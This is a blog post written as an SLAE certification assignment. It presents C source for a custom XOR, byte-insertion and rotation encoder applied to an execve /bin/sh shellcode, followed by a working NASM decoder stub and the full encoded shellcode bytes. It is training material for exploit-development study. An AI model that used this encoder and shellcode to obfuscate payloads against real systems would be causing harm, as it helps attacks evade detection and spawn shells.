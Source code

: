 ```yaml
---
comments: true
date: 2014-04-10
layout: blog
category: blog
title: 'SLAE Assignment 4: Custom Enc. Schema'
summary: '4th assignment of the SLAE'
image: /images/header_images/slaelogo.png
tags: [asm-x86,nasm,slae]
---
```


This is the fourth of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

  1. Create a custom encoding schema like "insertion encoder"

  2. Create a working demo using execve-stack as the shellcode to encode, decode and run with the created schema

The custom encoding schema that I chose to create works as follow:

  1. The execve shellcode is encoded with XOR

  2. The result will be encoded using the insertion encoder with an incrementing value

  3. Every 32 bits the above result will be rotated (left or right, you choose) of 16 bits.

To encode the execve shellcode, like I wrote above, I developed the following C program:

	//Description:	Assignment #4 (PoC of Custom_Encoding_Schema)
	//Author:	Paolo Stivanin <https://github.com/paolostivanin>
	//SLAE ID:	526

	#include <stdint.h>
	#include <string.h>
	#include <stdio.h>
	#include <stdlib.h>

	#define ROL 0x00
	#define ROR !ROL

	void concatenate(uint8_t [], uint32_t);
	void rotate(uint32_t, uint32_t, uint32_t);
	void split_uint32(uint32_t);

	uint8_t *finalShellcode;
	uint32_t counter = 0;

	int main(void){
		uint8_t execveShellcode[] = {0xeb,0x25,0x5e,0x89,0xf7,0x31,0xc0,0x50,0x89,0xe2,0x50,0x83,0xc4,0x03,0x8d,0x76,0x04,0x33,0x06,0x50,0x31,0xc0,0x33,0x07,0x50,0x89,0xe3,0x31,0xc0,0x50,0x8d,0x3b,0x57,0x89,0xe1,0xb0,0x0b,0xcd,0x80,0xe8,0xd6,0xff,0xff,0xff,0x2f,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68};
		uint8_t xorByte = 0x1c;
		uint8_t insertByte = 0xb2;

		size_t LEN=sizeof(execveShellcode);
		uint8_t xorWithInsertion[LEN*2];
		uint32_t i, j=0;

		restart:
		for(i=0; i<LEN; i++){
			if(execveShellcode[i] == xorByte){
				xorByte += 1;
				goto restart;
			}
		}
		for(i=0; i<LEN; i++){
			execveShellcode[i] ^= xorByte;
		}

		printf("XOR(Shellcode) using 0x%02x:\n", xorByte);
		for(i=0; i<LEN; i++){
			if(i==LEN-1) printf("0x%02x", execveShellcode[i]);
			else printf("0x%02x,", execveShellcode[i]);
		}
		
		for(i=0; i<LEN*2; i++){
			xorWithInsertion[i] = execveShellcode[j++];
			xorWithInsertion[++i] = insertByte++;
		}
		printf("\n\nINSERTION(XOR(Shellcode)):\n");
		for(i=0; i<LEN*2; i++){
			if(i==(LEN*2)-1) printf("0x%02x", xorWithInsertion[i]);
			else printf("0x%02x,", xorWithInsertion[i]);
		}	

		printf("\n\nROL16(XOR(INSERTION(Shellcode))):\n");

		finalShellcode = malloc(sizeof(xorWithInsertion));
		concatenate(xorWithInsertion, sizeof(xorWithInsertion));

		for(i=0; i<LEN*2; i++){
			if(i==(LEN*2)-1) printf("0x%02x", finalShellcode[i]);
			else printf("0x%02x,", finalShellcode[i]);
		}
		printf("\n");

		free(finalShellcode);

		return 0;
	}
		
	void concatenate(uint8_t arr[], uint32_t size){
	   	if(size % 4 != 0){
	   		printf("Size must be a multiple of 4\n");
	   		return;
	   	}
	   
	   	uint32_t i, value = 0;
		
	   	for(i=0;i<size;i++){
	   		value = value^arr[i];
	   		if(i%4 == 3){
	   			rotate(value, 16, ROL);
	   			value = 0;
	   		}
	   		else value = value<<8;
	   	}
	}
		
	void rotate(uint32_t input, uint32_t bits, uint32_t direction){
		uint32_t output;
		
		if(direction == ROL){
			output = input << (bits % (8 * sizeof(uint32_t)));
			output |= input >> ((8 * sizeof(uint32_t)) - bits % (8 * sizeof(uint32_t)));
		}
		else
		{
			output = input >> (bits % (8 * sizeof(uint32_t)));
			output |= input << ((8 * sizeof(uint32_t)) - bits % (8 * sizeof(uint32_t)));
	   	}
	   	split_uint32(output);
	}
		
	void split_uint32(uint32_t splitMe){
	   	uint32_t j;
	   	uint8_t b[4];
	   	b[0] = (splitMe >> 24);
	   	b[1] = (splitMe >> 16) & 0xff;
	   	b[2] = (splitMe & 0xffff) >> 8;
	   	b[3] = (splitMe & 0xff);
	   	for(j=0; j<4; j++){
	   		finalShellcode[counter++] = b[j];
	   	}
	}


And this is the shellcode used to decode and execute the original execve shellcode:

	;Description:	Assignment #4 (Custom_Encoding_Schema, 82 (decoder) + 104 (EncodedShellcode) bytes)
	;Shellcode:		\xeb\x4b\x5e\x31\xc0\x31\xdb\xb1\x0d\x31\xd2\x8a\x26\x8a\x46\x01\xc1\xc0\x10\x8a\x66\x02\x8a\x46\x03\x83\xc6\x04\x8a\x3e\x8a\x5e\x01\xc1\xc3\x10\x8a\x7e\x02\x8a\x5e\x03\x83\xc6\x04\x88\xe6\xc1\xc0\x10\x88\xf0\xc1\xc0\x10\x88\xfe\xc1\xc3\x10\x88\xf3\x66\x89\xd8\x35\x1c\x1c\x1c\x1c\x50\xfe\xc9\x75\xc0\xff\xe4\xe8\xb0\xff\xff\xff\x74\xe5\x6f\xe4\x33\xe3\x72\xe2\x75\xe1\x7e\xe0\x33\xdf\x33\xde\xe3\xdd\xe3\xdc\xe3\xdb\xca\xda\xf4\xd9\x9c\xd8\xd1\xd7\x17\xd6\xac\xd5\xfd\xd4\x95\xd3\x4b\xd2\x27\xd1\x91\xd0\x4c\xcf\xdc\xce\x2d\xcd\xff\xcc\x95\xcb\x4c\xca\x1b\xc9\x2f\xc8\xdc\xc7\x2d\xc6\x4c\xc5\x1a\xc4\x2f\xc3\x18\xc2\x6a\xc1\x91\xc0\x1f\xbf\xd8\xbe\x9f\xbd\x4c\xbc\xfe\xbb\x95\xba\x4c\xb9\xdc\xb8\x2d\xb7\xeb\xb6\x95\xb5\x42\xb4\x39\xb3\xf7\xb2
	;Author:	Paolo Stivanin <https://github.com/paolostivanin>
	;SLAE ID:	526

	global _start
	section .text
	_start:
		jmp short call_shellcode

	decoder:
		pop esi
		xor eax,eax
		xor ebx,ebx
		mov cl,13	;This is the counter. The shellcode is 104 bytes and this program read 8 byte every cycle so 104/8=13
		xor edx,edx
	ll:	mov ah, BYTE [esi]
		mov al, BYTE [esi +1]
		rol eax,16
		mov ah, BYTE [esi +2] 
		mov al, BYTE [esi +3]
		add esi,4
		mov bh, BYTE [esi]
		mov bl, BYTE [esi +1]
		rol ebx,16
		mov bh, BYTE [esi +2]
		mov bl, BYTE [esi +3]
		add esi,4

		mov dh,ah
		rol eax,16
		mov al,dh
		rol eax,16

		mov dh,bh
		rol ebx,16
		mov bl,dh

		mov ax,bx
		xor eax,0x1c1c1c1c
		push eax
		dec cl
		jnz ll
		jmp esp	

	call_shellcode:
		call decoder
		EncodedShellcode db 0x74,0xe5,0x6f,0xe4,0x33,0xe3,0x72,0xe2,0x75,0xe1,0x7e,0xe0,0x33,0xdf,0x33,0xde,0xe3,0xdd,0xe3,0xdc,0xe3,0xdb,0xca,0xda,0xf4,0xd9,0x9c,0xd8,0xd1,0xd7,0x17,0xd6,0xac,0xd5,0xfd,0xd4,0x95,0xd3,0x4b,0xd2,0x27,0xd1,0x91,0xd0,0x4c,0xcf,0xdc,0xce,0x2d,0xcd,0xff,0xcc,0x95,0xcb,0x4c,0xca,0x1b,0xc9,0x2f,0xc8,0xdc,0xc7,0x2d,0xc6,0x4c,0xc5,0x1a,0xc4,0x2f,0xc3,0x18,0xc2,0x6a,0xc1,0x91,0xc0,0x1f,0xbf,0xd8,0xbe,0x9f,0xbd,0x4c,0xbc,0xfe,0xbb,0x95,0xba,0x4c,0xb9,0xdc,0xb8,0x2d,0xb7,0xeb,0xb6,0x95,0xb5,0x42,0xb4,0x39,0xb3,0xf7,0xb2

Please note that `EncodedShellcode` **must be wrote in reverse order**. To perform this task, you can use [this small program](https://github.com/paolostivanin/SLAE/blob/master/utility/for-shellcode/reverse-shellcode.c) which I have developed.

Using libemu I made a graph of the execution flow of the above shellcode:

[![graph_assign4]({{ site.baseurl }}/images/2014/04/graph_assign4-551x1024.png)]({{ site.baseurl }}/images/2014/04/graph_assign4.png)

It works ;-)

[![assign4]({{ site.baseurl }}/images/2014/04/assign4-1024x525.png)]({{ site.baseurl }}/images/2014/04/assign4.png)

All the sources can be found in my [Github page](https://github.com/paolostivanin/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)


**Student ID: SLAE-526**
